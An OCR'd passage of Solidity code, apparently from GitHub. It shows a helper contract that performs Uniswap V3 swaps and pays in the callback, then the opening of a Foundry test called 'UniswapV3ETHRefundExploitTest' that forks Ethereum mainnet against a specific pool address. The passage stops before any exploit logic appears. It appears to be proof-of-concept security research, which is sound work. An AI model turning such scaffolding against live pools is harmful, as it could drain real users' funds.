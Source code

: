 ```solidity
    uint160 internal constant MIN_SQRT_RATIO = 4295128739;
    uint160 internal constant MAX_SQRT_RATIO = 1461446703485210103287273052203988822378723970342;

    constructor(IPool p) {
        pool = p;
        address pt = pool.token0();
        if (pool.token0() == address(0xC02aaA39b223FE8D0A0e5C4F27eAD9083C756Cc2)) {
            pt = pool.token1();
        }

        projectToken = IERC20(pt);

        _projectTokenIsZero = address(projectToken) < address(weth);
    }

    function check_swap(uint amountIn, uint minOutput) external payable returns(int256, int256) {
        (int256 amount0, int256 amount1) = pool.swap({
            recipient: address(this),
            zeroForOne: !_projectTokenIsZero,
            amountSpecified: int256(amountIn),
            sqrtPriceLimitX96: _projectTokenIsZero ? MAX_SQRT_RATIO - 1 : MIN_SQRT_RATIO + 1,
            data: abi.encode(minOutput)
        });

        return (amount0, amount1);
    }

    function uniswapV3SwapCallback(int256 amount0Delta, int256 amount1Delta, bytes calldata data) external {
        // Check if this is really a callback
        require(msg.sender == address(pool), "Not Authorized");

        // Unpack the data
        (uint256 _minimumAmountReceived) = abi.decode(data, (uint256));

        // Assign 0 and 1 accordingly
        uint256 _amountReceived = uint256(-(_projectTokenIsZero ? amount0Delta : amount1Delta));
        uint256 _amountToSend = uint256(_projectTokenIsZero ? amount1Delta : amount0Delta);

        // Revert if slippage is too high
        require(_amountReceived >= _minimumAmountReceived, "min amount");

        // Wrap and transfer the weth to the pool
        weth.deposit{value: _amountToSend}(); 
        weth.transfer(address(pool), _amountToSend);
    }
    receive() external payable {}
}
contract UniswapV3ETHRefundExploitTest is Test {
    // IPool pool = IPool(0x88e6A0c2dDD26FEEb64F039a2c41296FcB3f5640);
    IPool pool = IPool(0x7379e81228514a1D2a6Cf7559203998E20598346);
    
    IERC20 projectToken;
    IWETH9 weth = IWETH9(0xC02aaA39b223FE8D0A0e5C4F27eAD9083C756Cc2);

    function setUp() public {
        vm.createSelectFork("https://rpc.ankr.com/eth");

        vm.label(address(projectToken), "ProjectToken");
        vm.label(address(weth), "WETH");

        address pt = pool.token0();
        if (pool.token0() == address(0xC02aaA39b223FE8D0A0e5C4F27eAD9083C756Cc2)) {
```